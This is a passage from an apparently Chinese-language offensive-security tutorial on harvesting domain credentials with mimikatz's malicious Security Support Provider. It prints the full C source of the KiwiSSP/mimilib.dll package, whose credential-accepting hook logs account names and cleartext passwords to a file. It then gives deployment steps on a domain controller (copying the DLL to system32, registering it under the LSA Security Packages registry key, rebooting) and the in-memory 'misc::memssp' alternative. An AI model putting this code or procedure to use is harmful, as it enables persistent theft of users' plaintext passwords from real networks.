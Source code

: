 `mimikatz`早以支持这个功能,该文件为为`mimilib.dll`。mimikatz poc为:

    
    
    #include "kssp.h"static SECPKG_FUNCTION_TABLE kiwissp_SecPkgFunctionTable = {    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,    kssp_SpInitialize, kssp_SpShutDown, kssp_SpGetInfo, kssp_SpAcceptCredentials,    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,    NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,    NULL, NULL, NULL, NULL, NULL, NULL, NULL,};NTSTATUS NTAPI kssp_SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable){    return STATUS_SUCCESS;}NTSTATUS NTAPI kssp_SpShutDown(void){    return STATUS_SUCCESS;}NTSTATUS NTAPI kssp_SpGetInfo(PSecPkgInfoW PackageInfo){    PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;    PackageInfo->wVersion   = 1;    PackageInfo->wRPCID     = SECPKG_ID_NONE;    PackageInfo->cbMaxToken = 0;    PackageInfo->Name       = L"KiwiSSP";    PackageInfo->Comment    = L"Kiwi Security Support Provider";    return STATUS_SUCCESS;}NTSTATUS NTAPI kssp_SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials){    FILE * kssp_logfile;;#pragma warning(push)#pragma warning(disable:4996)    if(kssp_logfile = _wfopen(L"kiwissp.log", L"a"))#pragma warning(pop)    {            klog(kssp_logfile, L"[%08x:%08x] [%08x] %wZ\\%wZ (%wZ)\t", PrimaryCredentials->LogonId.HighPart, PrimaryCredentials->LogonId.LowPart, LogonType, &PrimaryCredentials->DomainName, &PrimaryCredentials->DownlevelName, AccountName);        klog_password(kssp_logfile, &PrimaryCredentials->Password);        klog(kssp_logfile, L"\n");        fclose(kssp_logfile);    }    return STATUS_SUCCESS;}NTSTATUS NTAPI kssp_SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables){    *PackageVersion = 0x00000042;    *ppTables = &kiwissp_SecPkgFunctionTable;    *pcTables = 1;    return STATUS_SUCCESS;}

![](https://gitee.com/fuli009/images/raw/master/public/20210906084513.png)

64位和32位的都有,和目标系统位数要一致。将该dll拷贝到域控`c:\windows\system32`下

![](https://gitee.com/fuli009/images/raw/master/public/20210906084514.png)

打开注册表,修改域控位置`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\Security
Packages\`

![](https://gitee.com/fuli009/images/raw/master/public/20210906084515.png)

在`Security Packages`下添加`mimilib.dll`

![](https://gitee.com/fuli009/images/raw/master/public/20210906084516.png)![](https://gitee.com/fuli009/images/raw/master/public/20210906084517.png)

将域控重启系统。打开新生成文件`c:\windows\system32\kiwissp.log`。

![](https://gitee.com/fuli009/images/raw/master/public/20210906084518.png)

kiwissp.log记录着登录的账户和明文密码

![](https://gitee.com/fuli009/images/raw/master/public/20210906084519.png)

但该方式弊端非常明显:重启的动作太大。mimikatz同样支持了以内存更新的方式更新ssp,无需重启就能获取到登录用户的账号信息和密码。

进入与目标系统位数相同的mimikatz后,输入命令

•privilege::debug•misc::memssp

![](https://gitee.com/fuli009/images/raw/master/public/20210906084520.png)
